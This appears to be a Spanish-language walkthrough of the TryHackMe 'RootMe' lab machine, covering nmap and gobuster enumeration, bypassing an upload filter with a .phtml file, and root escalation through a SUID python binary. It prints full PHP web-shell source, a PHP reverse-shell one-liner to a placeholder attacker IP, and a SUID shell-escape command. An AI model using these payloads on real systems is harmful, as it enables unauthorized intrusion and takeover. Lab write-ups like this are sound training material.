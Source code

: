 # Maquina RootMe - Linux - Web Uploads - Easy
![Image](https://github.com/user-attachments/assets/7cd964b0-75f6-49cf-864d-592b69ca9287)

# Escaneo con NMAP
![Image](https://github.com/user-attachments/assets/e310e554-7e5b-4647-a355-3b08d859f31d)
#### Realizamos scaneo completo con las siguientes flags: 
#### -sS: Scaneo Silencioso.
#### -Pn: No ping.
#### -sV: Muestra la versión del servicio en el puerto que se use.
#### --min-rate: Setea el envío minimo de paquetes en este caso 5000.
#### -T: Le seteamos la velocidad, podemos escoger del 1 al 5. En este caso 4.
#### -p-: Scanea todos los puertos en total 65535
#### --open: Muestra solo puertos abiertos
### Como resultado nos da dos puertos el 22 (SSH) y 80 (HTTP) definidos por default.

# Gobuster scan
![Image](https://github.com/user-attachments/assets/20248aff-8a55-4839-afb4-cda07ed5165f)
### Indicaciones: 
Como detectamos anteriormente que estaba abierto el puerto 80, nos indica que hay una
pagina web abierta, por lo que procedemos a tirar un gobuster y nos da directorios ocultos
**como el /panel y /uploads.** y indagando un poco el /panel sirve para subir archivos pero **OJO
no permite extensiones .php, por lo que subimos un .phtml** y nos desplegamos una Web Shell para luego irnos y desplegar una reverse shell.

### Código: 
```
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>
```
# Subida exitosa! (Usando .phtml)
![Image](https://github.com/user-attachments/assets/01e0ec90-f4d6-4e37-9721-aa37ca80da82)


# Web Shell + Netcat
![Image](https://github.com/user-attachments/assets/2a17b2c6-dcec-4354-8a73-55a8f8bbc251)

Desplegamos una reverse shell hacia nuestro puerto de escucha (4444)
### Código: 
```
php -r '$sock=fsockopen("REEMPLAZA_IP",4444);exec("sh <&3 >&3 2>&3");'
```


# Busqueda por SUID
![Image](https://github.com/user-attachments/assets/44d8d7ae-8ccf-409b-85e6-da508ae3cd97)

Una vez dentro, he estado revisando por permisos de sudo pero me pide contraseña para ejecutarlo
asi que lo omito y busco buscar por SUID con **"find / -perm u=s -type f 2>/dev/null"**
Y encuentro algo muy interesante, el python esta mal configurado
contiene permisos de SUID por lo que nos subimos los privilegios con:
```
/usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

# Escalada
![Image](https://github.com/user-attachments/assets/8589d584-4097-446f-b112-05be9d4b3324)

Obtenemos el acceso a root y empezamos a filtrar la flag del user que nos pide THM

# User flag
![Image](https://github.com/user-attachments/assets/30da5147-b514-45ae-9194-2dbe413298aa)

Para encontrar esta flag usamos el siguiente cmd:
```
find / -name "user.txt" 2>/dev/null
```


# Final
![Image](https://github.com/user-attachments/assets/5a6fc5f3-1f0a-40fa-812e-ab816dcedee5)

Y finalmente buscamos en el directorio de /root la flag final y la encontramos facilmente, como se muestra.
Esto ha sido todo, un poco breve pero directo al grano. Como a mi me gusta. 

"Hack to survive" - Mkadd.
